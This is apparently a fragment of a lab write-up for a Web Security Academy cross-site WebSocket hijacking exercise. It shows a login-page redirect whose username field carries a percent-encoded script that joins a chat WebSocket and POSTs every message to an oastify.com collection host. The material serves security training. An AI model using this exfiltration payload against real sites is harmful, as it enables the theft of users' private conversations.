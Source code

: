```
document.location = "[https://cms-YOUR-LAB-ID.web-security-academy.net/login?username=YOUR-URL-ENCODED-CSWSH-SCRIPT&password=anything](https://cms-YOUR-LAB-ID.web-security-academy.net/login?username=YOUR-URL-ENCODED-CSWSH-SCRIPT&password=anything)";

</script>
```

In my case it look like

```

<script>

document.location = "https://cms-0a1c00170437d46e82a65bc800150077.web-security-academy.net/login?username=%3c%73%63%72%69%70%74%3e%0a%20%20%20%20%76%61%72%20%77%73%20%3d%20%6e%65%77%20%57%65%62%53%6f%63%6b%65%74%28%27%77%73%73%3a%2f%2f%30%61%31%33%30%30%36%30%30%34%64%36%61%66%65%39%38%30%31%65%30%64%35%38%30%30%66%31%30%30%39%61%2e%77%65%62%2d%73%65%63%75%72%69%74%79%2d%61%63%61%64%65%6d%79%2e%6e%65%74%2f%63%68%61%74%27%29%3b%0a%20%20%20%20%77%73%2e%6f%6e%6f%70%65%6e%20%3d%20%66%75%6e%63%74%69%6f%6e%28%29%20%7b%0a%20%20%20%20%20%20%20%20%77%73%2e%73%65%6e%64%28%22%52%45%41%44%59%22%29%3b%0a%20%20%20%20%7d%3b%0a%20%20%20%20%77%73%2e%6f%6e%6d%65%73%73%61%67%65%20%3d%20%66%75%6e%63%74%69%6f%6e%28%65%76%65%6e%74%29%20%7b%0a%20%20%20%20%20%20%20%20%66%65%74%63%68%28%27%68%74%74%70%73%3a%2f%2f%30%6d%6e%63%36%6f%78%71%38%73%37%68%6b%6f%66%37%62%67%73%64%78%68%6f%76%6c%6d%72%64%66%37%33%77%2e%6f%61%73%74%69%66%79%2e%63%6f%6d%27%2c%20%7b%6d%65%74%68%6f%64%3a%20%27%50%4f%53%54%27%2c%20%6d%6f%64%65%3a%20%27%6e%6f%2d%63%6f%72%73%27%2c%20%62%6f%64%79%3a%20%65%76%65%6e%74%2e%64%61%74%61%7d%29%3b%0a%20%20%20%20%7d%3b%0a%3c%2f%73%63%72%69%70%74%3e%0a&password=anything";

</script>
```
<img src="images/image65.png" alt="third" width="800">
